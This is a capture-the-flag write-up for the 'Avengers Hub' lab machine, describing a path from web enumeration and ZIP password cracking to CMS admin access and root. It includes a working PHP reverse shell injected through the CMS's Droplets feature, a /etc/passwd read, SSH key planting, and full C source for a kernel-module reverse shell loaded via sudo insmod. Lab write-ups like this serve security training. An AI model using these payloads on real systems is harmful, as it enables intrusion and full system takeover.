# CTF Write-Up: Avengers Hub - Hackifinity Battle - Hard

## Step 1: Target Enumeration

The first step is to locate the target and perform an Nmap scan to check for open and hidden ports.

## Step 2: Directory and File Search

Using ffuf, we perform a directory and file search on the target. The most interesting discovery is a **breakglass.zip** file, which is protected by a password.

## Step 3: Cracking the ZIP File

We attempt to crack the ZIP file password using fcrackzip with the RockYou wordlist:
```cmd
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt breakglass.zip
```
After a short while, we successfully crack the password. Inside the ZIP file, we find a hashed admin password.

## Step 4: Cracking the Admin Password

We successfully crack the hashed password, which is revealed to be: **securepassword**. Using this password, we gain admin access to the CMS.

## Step 5: Exploring the CMS for Exploits

We look around the CMS and find few ways to gain a reverse shell to the machine. My approach after reading about the cms is to use **Droplets** function that allows to inject PHP code.
![avenger writeup1](https://github.com/user-attachments/assets/1b0d353c-f4fc-4f71-90bf-593d8658d4de)

## Step 6: Bypassing Disabled PHP Functions

However, after multiple attempts, we realize that some PHP functions are disabled. We enumerate the disabled functions using:
```php
echo ini_get('disable_functions') . "\n";
$zmienna = file_get_contents('/etc/passwd');
echo "<pre>$zmienna</pre>";
```
#### Disabled Functions:
```cmd
shell_exec, exec, passthru, system, proc_open, expect_popen
```
## Step 7: Crafting the Reverse Shell

We bypass the restrictions by crafting a PHP reverse shell:
```php
$ip = '10.8.26.132';
$port = 1234;
$handle = popen("bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'", 'r');
pclose($handle);
```
![avenger writeup2](https://github.com/user-attachments/assets/acf0facb-eaf9-4ba0-b8f3-3ec9e3166182)

Then, we create a page, and insert the droplet into this page: 
![avengers writeup3](https://github.com/user-attachments/assets/36b22613-7c70-497a-86af-96e470da5c60)

Now we open the page and we had received a **reverse shell as www-data**!
![avengers writeup](https://github.com/user-attachments/assets/3d5608e8-4884-40a4-82a1-0820e57c17a0)

## Step 8: Gaining User Privileges

After further enumeration, we find write access to the SSH authorized keys of user Void, who owns the user.txt flag.

We inject our public SSH key, allowing us to connect as user Void:
```cmd
ssh -i id_rsa void@target_ip
```
![writeup](https://github.com/user-attachments/assets/894cb1e8-e96d-4cd2-b5e4-05c0952f31e8)

### 🎉 Now, we have user access!

![writeup2](https://github.com/user-attachments/assets/27a6a83d-c2b8-49db-aaab-2bff4aa70766)

 
## Step 9: Escalating to Root with a Kernel Module

We check for sudo permissions:
```cmd
sudo -l
```
We discover permission to execute /sbin/insmod, which allows us to load a kernel module (.ko file).

## Step 10: Creating the Malicious Kernel Module

We create cyberavengers.c on the target:
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "10.20.20.20"
#define REMOTE_PORT "8888"

static int reverse_shell_thread(void *data)
{
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Kernel module reverse shell");

Creating a Makefile for Compilation

We create a Makefile:

obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
## Step 11: Compile and Load the Malicious Kernel Module

1. Compile the module on the target:
```cmd
make
```
3. Set up a listener on the attacker machine:
```cmd
nc -lvnp 8888
```
3. Load the malicious kernel module:
   
```cmd
sudo /sbin/insmod cyberavengers.ko
```
**We now have a root reverse shell on our listener!**


